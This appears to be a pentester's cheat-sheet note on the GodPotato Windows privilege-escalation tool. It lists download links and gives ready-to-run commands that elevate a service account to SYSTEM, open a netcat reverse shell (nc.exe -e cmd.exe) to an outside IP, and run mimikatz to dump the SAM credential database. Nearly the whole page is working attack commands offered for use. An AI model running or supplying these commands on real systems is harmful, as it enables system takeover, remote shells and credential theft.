 > The historical Potato has no way to run on the latest Windows system.
> 
> Elevates a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
> As long as you have `ImpersonatePrivilege` permission. Then you are `NT AUTHORITY\SYSTEM`, usually WEB services and database services have `ImpersonatePrivilege` permissions.


#Windows_Privilege_Escalation 

# Download

Download binary
```
https://github.com/BeichenDream/GodPotato
```
```
https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe
https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET35.exe
https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```

# Usage

Using `GodPotato`'s built-in Clsid for privilege escalation and execute a simple command
```bash
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

Use `GodPotato` to execute reverse shell commands
```bash
.\GodPotato-NET4.exe -cmd "nc.exe -e C:\Windows\System32\cmd.exe 192.168.169.123 5555"
```

Use `GodPotato` to run `mimikatz.exe` as `SYSTEM`
```powershell
.\GodPotato-NET4.exe -cmd './mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"'
```